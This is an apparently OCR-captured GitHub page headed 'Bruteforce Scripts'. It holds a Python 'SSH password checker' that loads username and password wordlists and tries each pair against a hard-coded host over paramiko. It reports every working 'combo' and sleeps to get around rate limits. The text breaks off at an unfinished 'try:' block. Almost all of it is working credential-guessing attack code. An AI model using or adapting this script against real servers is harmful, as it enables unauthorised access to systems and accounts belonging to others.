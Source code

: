 
## <u>Bruteforce Scripts</u>

```python

# Quick SSH password Checker

import socket
import ssh2

import paramiko
import socket
import time
from colorama import init, Fore


init()

GREEN = Fore.GREEN
RED   = Fore.RED
RESET = Fore.RESET
BLUE  = Fore.BLUE

# Username file
user_file = open("./SSH/recheck_userlist.txt", "r")
user_list = user_file.readlines()
user_file.close()

# Password file
pass_file = open("./SSH/recheck_passlist.txt", "r")
pass_list = pass_file.readlines()
pass_file.close()


# HOST
host = "192.168.99.22"


def is_ssh_open(hostname, username, password):
    # initialize SSH client
    client = paramiko.SSHClient()
    # add to know hosts
    client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    try:
        client.connect(hostname=hostname, username=username, password=password, timeout=3)
    except socket.timeout:
        # this is when host is unreachable
        print(f"{RED}[!] Host: {hostname} is unreachable, timed out.{RESET}")
        return False
    except paramiko.AuthenticationException:
        print(f"[!] Invalid credentials for {username}:{password}")
        return False
    except paramiko.SSHException:
        print(f"{BLUE}[*] Quota exceeded, retrying with delay...{RESET}")
        # sleep for a minute
        time.sleep(60)
        return is_ssh_open(hostname, username, password)
    else:
        # connection was established successfully
        print(f"{GREEN}[+] Found combo: HOSTNAME: {hostname} | USERNAME: {username} | PASSWORD: {password}{RESET}")
        return True

try:
```